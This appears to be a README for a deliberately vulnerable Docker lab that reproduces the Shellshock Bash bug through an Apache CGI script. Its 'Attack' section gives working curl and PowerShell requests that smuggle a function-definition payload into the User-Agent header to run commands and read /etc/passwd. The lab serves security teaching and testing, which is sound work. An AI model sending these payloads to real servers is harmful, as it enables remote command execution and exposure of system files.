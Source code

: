 
# Shellshock

CentOS8 + Apache2 + Bash (v4.3)

### Build
Build an image from Dockerfile:
```bash
docker build -t tex2e/shellshock-cgi .
docker run -itd -p 80:80 --privileged --name shellshock-cgi tex2e/shellshock-cgi /sbin/init
```
When entering the container:
```bash
docker exec -it shellshock-cgi bash
```
- The bash containing the vulnerability is located in /usr/local/bin/bash.
- Shebang in /var/www/cgi-bin/test.cgi specifies to run /usr/local/bin/bash.

### Attack

curl：
```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```

PowerShell：
```powershell
$Response = Invoke-WebRequest -UserAgent "() { :;}; echo `"Content-type: text/plain`"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
$Response.Content
```

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
